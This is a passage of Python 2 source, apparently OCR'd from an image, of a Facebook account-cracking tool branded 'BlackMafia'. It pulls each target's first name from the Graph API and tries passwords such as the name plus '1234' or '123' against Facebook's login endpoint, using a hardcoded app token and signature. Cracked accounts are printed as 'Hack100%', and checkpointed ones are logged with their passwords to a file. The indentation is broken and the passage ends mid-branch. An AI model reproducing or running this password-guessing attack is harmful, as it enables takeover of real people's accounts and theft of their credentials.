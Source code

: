	print "\033[1;95mTotal IDs\033[1;91m: \033[1;95m"+str(len(id))
	jalan('\033[1;91mPlease Wait\033[1;94m...')
	titik = ['.   ','..  ','... ']
	for o in titik:
		print("\r\033[1;95mCloning\033[1;91m"+o),;sys.stdout.flush();time.sleep(0.00001)
	print "\n\033[1;91m«--•◈••◈•---\x1b[1;95m•◈•Stop Process Press CTRL+Z•◈•\033[1;91m---•◈••◈•-»"
	print "\033[1;95m•◈•▬ ▬ ▬ ▬ ▬ ▬ ▬•◈•\033[1;91mBlackMafia\033[1;95m•◈•▬ ▬ ▬ ▬ ▬ ▬ ▬ •◈•"
	jalan(' \033[1;91m.................\033[1;95mCloning Start..\033[1;91m............ ')
	print "\033[1;95m•◈•▬ ▬ ▬ ▬ ▬ ▬ ▬•◈•\033[1;91mBlackMafia\033[1;95m•◈•▬ ▬ ▬ ▬ ▬ ▬ ▬ •◈•"
	
			
	def main(arg):
		global oks
		user = arg
		try:
			os.mkdir('out')
		except OSError:
			pass #Dev:love_hacker
		try:													
			a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket)												
			b = json.loads(a.text)												
			pass1 = b['first_name'] + '1234'												
			data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass1)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")												
			q = json.load(data)												
			if 'access_token' in q:
				x = requests.get("https://graph.facebook.com/"+user+"?access_token="+q['access_token'])
				z = json.loads(x.text)
				print '\x1b[1;91m[  ✓  ] \x1b[1;91mHack100%💉'											
				print '\x1b[1;92m[•⊱✿⊰•] \x1b[1;92mName \x1b[1;91m    : \x1b[1;91m' + b['name']											
				print '\x1b[1;92m[•⊱✿⊰•] \x1b[1;92mID \x1b[1;91m      : \x1b[1;91m' + user											
				print '\x1b[1;92m[•⊱✿⊰•] \x1b[1;92mPassword \x1b[1;91m: \x1b[1;91m' + pass1 + '\n'											
				oks.append(user+pass1)
                        else:
			        if 'www.facebook.com' in q["error_msg"]:
				    print '\x1b[1;93m[ ✖ ] \x1b[1;93mCheckpoint'
				    print '\x1b[1;93m[•⊱✿⊰•] \x1b[1;93mName \x1b[1;93m    : \x1b[1;93m' + b ['name']
				    print '\x1b[1;93m[•⊱✿⊰•] \x1b[1;93mID \x1b[1;93m      : \x1b[1;93m' + user
				    print '\x1b[1;93m[•⊱✿⊰•] \x1b[1;93mPassword \x1b[1;93m: \x1b[1;93m' + pass1 + '\n'
				    cek = open("out/super_cp.txt", "a")
				    cek.write("ID:" +user+ " Pw:" +pass1+"\n")
				    cek.close()
				    cekpoint.append(user+pass1)
                                else:
				    pass2 = b['first_name'] + '123'										
                                    data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass2)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")												
			            q = json.load(data)												
			            if 'access_token' in q:	
				            x = requests.get("https://graph.facebook.com/"+user+"?access_token="+q['access_token'])
				            z = json.loads(x.text)
				            print '\x1b[1;91m[  ✓  ] \x1b[1;91mHack100%💉'											
				            print '\x1b[1;92m[•⊱✿⊰•] \x1b[1;92mName \x1b[1;91m    : \x1b[1;91m' + b['name']											
				            print '\x1b[1;92m[•⊱✿⊰•] \x1b[1;92mID \x1b[1;91m      : \x1b[1;91m' + user								
				            print '\x1b[1;92m[•⊱✿⊰•] \x1b[1;92mPassword \x1b[1;91m: \x1b[1;91m' + pass2 + '\n'											
				            oks.append(user+pass2)
                                    else:
			                   if 'www.facebook.com' in q["error_msg"]:
				               print '\x1b[1;93m[ ✖ ] \x1b[1;93mCheckpoint'
				               print '\x1b[1;93m[•⊱✿⊰•] \x1b[1;93mName \x1b[1;93m    : \x1b[1;93m' + b['name']
				               print '\x1b[1;93m[•⊱✿⊰•] \x1b[1;93mID \x1b[1;93m      : \x1b[1;93m' + user
				               print '\x1b[1;93m[•⊱✿⊰•] \x1b[1;93mPassword \x1b[1;93m: \x1b[1;93m' + pass2 + '\n'